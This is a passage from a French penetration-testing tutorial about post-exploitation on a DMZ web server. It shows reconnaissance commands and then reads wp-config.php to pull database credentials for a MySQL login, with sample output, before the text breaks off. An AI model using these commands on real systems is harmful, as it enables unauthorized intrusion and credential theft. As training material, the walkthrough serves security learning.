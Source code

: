 Ce scénario pratique illustre une situation courante : vous avez obtenu un accès initial à un serveur web dans une DMZ, et vous devez élever vos privilèges puis pivoter vers le réseau interne pour atteindre des systèmes plus sensibles. L'ensemble du processus est conçu pour être réalisable en moins d'une heure.

### Contexte initial

- Accès obtenu : shell web (www-data) sur un serveur Ubuntu 20.04 dans la DMZ (192.168.1.10)
- Objectif : atteindre le réseau interne (10.0.0.0/24) et compromettre un serveur Windows

### Étape 1 : Reconnaissance initiale (5 minutes)

Dès l'obtention du shell, nous effectuons une reconnaissance rapide :

```bash
id
# Résultat : uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
# Résultat : Linux webserver 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

ip addr
# Résultat : eth0 192.168.1.10/24, eth1 10.0.0.10/24 (interface interne!)

netstat -tuln
# Résultat : plusieurs services en écoute, dont MySQL sur 3306
```

Cette reconnaissance initiale révèle deux informations cruciales : le serveur possède une interface sur le réseau interne (10.0.0.10), et MySQL est en cours d'exécution. Ces deux éléments seront exploités dans les étapes suivantes.

### Étape 2 : Élévation de privilèges via MySQL (10 minutes)

Nous tentons d'accéder à MySQL pour rechercher des credentials :

```bash
find / -name "wp-config.php" 2>/dev/null
# Résultat : /var/www/html/wp-config.php

cat /var/www/html/wp-config.php | grep DB_
# Résultat : 
# define('DB_NAME', 'wordpress');
# define('DB_USER', 'wordpress_user');
# define('DB_PASSWORD', 'StrongPassword123!');
# define('DB_HOST', 'localhost');
```

Nous utilisons ces credentials pour accéder à MySQL et vérifier si l'utilisateur a des privilèges étendus :

```bash
mysql -u wordpress_user -p'StrongPassword123!'
mysql> SELECT user, host, plugin FROM mysql.user;
# Résultat : 'root'@'localhost' avec plugin 'auth_socket'

mysql> exit
```
